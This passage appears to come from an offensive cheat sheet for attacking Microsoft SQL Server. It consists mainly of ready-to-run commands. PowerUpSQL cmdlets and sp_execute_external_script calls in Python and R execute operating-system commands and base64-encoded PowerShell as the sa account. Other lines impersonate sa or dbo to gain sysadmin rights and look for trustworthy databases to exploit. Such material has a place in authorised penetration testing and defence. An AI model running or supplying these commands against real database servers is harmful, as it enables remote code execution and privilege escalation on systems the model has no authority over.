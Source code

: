 ```ps1
Invoke-SQLOSCmdPython -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language =N'Python',@script=N'import subprocess p = subprocess.Popen("cmd.exe /c whoami", stdout=subprocess.PIPE) OutputDataSet = pandas.DataFrame([str(p.stdout.read(), "utf-8")])'
WITH RESULT SETS (([cmd_out] nvarchar(max)))
```

## R

```ps1
Invoke-SQLOSCmdR -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Command "powershell -e <base64encodedscript>" -Verbose

EXEC sp_execute_external_script @language=N'R',@script=N'OutputDataSet <- data.frame(system("cmd.exe /c dir",intern=T))'
WITH RESULT SETS (([cmd_out] text));
GO

@script=N'OutputDataSet <-data.frame(shell("dir",intern=T))'
```

## Audit Checks


### Find and exploit impersonation opportunities 

* Impersonate as: `EXECUTE AS LOGIN = 'sa'`
* Impersonate `dbo` with DB_OWNER
	```sql
	SQL> select is_member('db_owner');
	SQL> execute as user = 'dbo'
	SQL> SELECT is_srvrolemember('sysadmin')
	```

```ps1
Invoke-SQLAuditPrivImpersonateLogin -Username sa -Password Password1234 -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose

# impersonate sa account
powerpick Get-SQLQuery -Instance "<DBSERVERNAME\DBInstance>" -Query "EXECUTE AS LOGIN = 'sa'; SELECT IS_SRVROLEMEMBER(''sysadmin'')" -Verbose -Debug
```

## Find databases that have been configured as trustworthy

```sql
Invoke-SQLAuditPrivTrustworthy -Instance "<DBSERVERNAME\DBInstance>" -Exploit -Verbose 

SELECT name as database_name, SUSER_NAME(owner_sid) AS database_owner, is_trustworthy_on AS TRUSTWORTHY from sys.databases
```
